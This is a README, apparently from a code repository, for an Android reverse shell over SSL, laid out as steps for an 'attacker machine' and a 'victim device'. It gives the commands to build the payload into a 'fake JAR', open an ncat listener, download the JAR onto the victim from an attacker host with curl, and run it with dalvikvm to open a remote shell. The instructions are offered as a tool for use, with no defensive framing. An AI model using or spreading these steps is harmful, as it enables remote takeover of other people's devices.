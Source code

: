 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On Victim device - Android -
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl 

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>

and then run the reverse shell using dalvikvm from Termux:

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
